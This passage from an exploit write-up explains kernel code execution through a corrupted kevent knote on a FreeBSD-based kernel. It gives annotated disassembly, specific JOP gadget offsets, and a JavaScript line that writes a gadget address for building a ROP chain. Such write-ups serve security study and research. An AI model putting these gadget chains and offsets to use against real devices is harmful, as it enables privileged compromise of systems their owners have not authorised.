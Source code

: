 [src](http://fxr.watson.org/fxr/source/kern/kern_event.c?v=FREEBSD90#L1664)
```
; Note: R14 = ctxp
seg000:FFFFFFFF89D29861                 test    byte ptr [r14+50h], 8      ; we set ctxp+0x50 to 0, so we're good
seg000:FFFFFFFF89D29866                 jnz     short loc_FFFFFFFF89D29872 ; irrelevant
seg000:FFFFFFFF89D29868                 mov     rax, [r14+68h]             ; r14 + 0x68 = ctxp1
seg000:FFFFFFFF89D2986C                 mov     rdi, r14                   ; r14 + 0x00 = ctxp2 = rdi
seg000:FFFFFFFF89D2986F                 call    qword ptr [rax+10h]        ; JOP gadget
```

Also notice that we control the `rdi` register here via the `r14` register. Under normal circumstances, the knote object `kn` is loaded into `rdi` as it's the first argument to `kn->kn_fop->f_detach()` - however because we have corruption on the `knote` - we can not only control where we jump to, but also the arguments. This is important for JOP, because the next jump in the first JOP gadget requires us to have control of the RDI register.

## Code Execution
### Creating space on the kstack
To push some space on the stack, we can use a JOP chain. We'll use the variable `stackshift_from_retaddr` to track how much we've pushed on the stack. First we'll run a function prologue, which will subtract from RSP, creating space for us to put our ROP chain into. This function prologue is our first JOP gadget at `0x12A19CD`, which we setup previously in our fake `knote` that we sprayed.

```
seg000:00000000012A19CD                 sub     rsp, 58h
seg000:00000000012A19D1                 mov     [rbp-2Ch], edx
seg000:00000000012A19D4                 mov     r13, rdi
seg000:00000000012A19D7                 mov     r15, rsi
seg000:00000000012A19DA                 mov     rax, [r13+0]
seg000:00000000012A19DE                 call    qword ptr [rax+7D0h] // Implicitly subs 0x8 from rsp
```

At this point, we're 0x5C away from the original stack pointer. Now remember, for JOP to work, we need to be able to control where code jumps next, which means we have to control `rax`. Luckily, we can see `rax` is loaded from `r13+0`, and `r13` is set from `rdi`. As detailed above, we have corruption on `rdi` via the `knote` object. If we look at the previous section where the JOP gadget is called from the kernel, we set `rdi` to be `ctxp2`. The next gadget will be called at `ctxp2 + 0x7D0`, which we will set to `0x6EF4E5`.

```javascript
p.write8(ctxp2.add32(0x7d0), offsetToWebKit(0x6EF4E5));
```
```
seg000:00000000006EF4E5                 mov     rdi, [rdi+10h]
seg000:00000000006EF4E9                 jmp     qword ptr [rax]
```

This gadget will allow us to set `rdi` to a new value, and jump to `rax`, which is still equivalent to the address of `ctxp2`. Notice that this gadget allows us to loop, because we can write the first gadget to `ctxp2`, and set where the first gadget jumps to via `rdi + 0x10`.
